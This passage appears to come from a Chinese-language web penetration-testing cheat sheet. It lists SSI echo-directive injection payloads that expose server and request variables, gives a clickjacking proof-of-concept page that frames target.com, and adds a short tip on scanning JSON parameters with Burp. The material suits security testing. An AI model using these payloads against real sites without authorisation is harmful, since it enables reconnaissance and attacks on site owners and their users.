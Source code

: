 ```text
<!--#echo var="site_htmlroot" -->
<!--#echo var="path_translated" -->
<!--#echo var="path_info_translated" -->
<!--#echo var="request_uri" -->
<!--#echo var="request_method" -->    
<!--#echo var="remote_user" -->
<!--#echo var="remote_addr" -->
<!--#echo var="http_client_ip" -->
<!--#echo var="remote_port" -->
<!--#echo var="remote_ident" -->
<!--#echo var="remote_host" -->
<!--#echo var="query_string_unescaped" -->
<!--#echo var="query_string" -->
<!--#echo var="path_translated" -->
<!--#echo var="path_info" -->
<!--#echo var="path" -->
<!--#echo var="page_count" -->
<!--#echo var="last_modified" -->
<!--#echo var="http_user_agent" -->
<!--#echo var="http_ua_os" -->
<!--#echo var="http_ua_cpu" -->
```

### 点击劫持

只需使用Burp的clickbandit。还要记住：Clickjacking适用于点击，而不适用于键盘。

poc:

```text
<html>
   <head>
     <title>Clickjack test page</title>
   </head>
   <body>
     <p>Website is vulnerable to clickjacking!</p>
     <iframe src="http://target.com" width="500" height="500"></iframe>
   </body>
</html>
```

[https://www.owasp.org/index.php/Testing\_for\_Clickjacking\_\(OTG-CLIENT-009](https://www.owasp.org/index.php/Testing_for_Clickjacking_%28OTG-CLIENT-009)\) [https://javascript.info/clickjacking](https://javascript.info/clickjacking) [https://www.tinfoilsecurity.com/blog/what-is-clickjacking](https://www.tinfoilsecurity.com/blog/what-is-clickjacking)

### 攻击JSON

利用burp标记参数进行主动扫描

[https://www.coalfire.com/Solutions/Coalfire-Labs/The-Coalfire-LABS-Blog/may-2018/the-right-way-to-test-json-parameters-with-burp](https://www.coalfire.com/Solutions/Coalfire-Labs/The-Coalfire-LABS-Blog/may-2018/the-right-way-to-test-json-parameters-with-burp)
